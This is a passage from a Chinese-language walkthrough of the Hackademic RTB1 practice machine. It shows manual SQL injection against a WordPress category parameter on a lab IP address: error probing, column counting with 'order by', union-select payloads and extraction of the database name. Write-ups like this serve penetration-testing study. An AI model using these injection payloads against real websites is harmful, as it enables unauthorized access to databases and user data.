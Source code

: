     以及下方 `Uncategorized` 的链接
    
    ```php
    http://192.168.75.132/Hackademic_RTB1/?cat=1
    ```
    
    `?p` 以及`?cat`很可能存在`sql`注入漏洞
    
3. 尝试一下`sql`注入和文件包含
    
    `p`参数无任何回显，应该不存在sql注入和文件包含
    
    `cat`输入`1'` ,发现页面回显有问题，把sql语句爆了出来，`SELECT * FROM wp_categories WHERE cat_ID = 1\\\' LIMIT 1` ，并且可以看到表是`wp_categories` 
    
    ![image.png](image%202.png)
    
4. 尝试注入，手工
    
    ```php
    // 存在注入点
    http://192.168.75.132/Hackademic_RTB1/?cat=1 and 1=2
    // 表的列数有五列
    http://192.168.75.132/Hackademic_RTB1/?cat=1 order by 5
    // 爆回显位，页面回显位是第二位
    http://192.168.75.132/Hackademic_RTB1/?cat=0 union select 1,2,3,4,5
    // 爆库，页面回显 wordpress ，表示库名是wordpress 
    http://192.168.75.132/Hackademic_RTB1/?cat=0 union select 1,database(),3,4,5
    ```
    
5. 发现库名是`wordpress` ，猜测CMS是`wordpress` ，我们寻找一下看看有没有有用的信息
    
    ![image.png](image%203.png)
    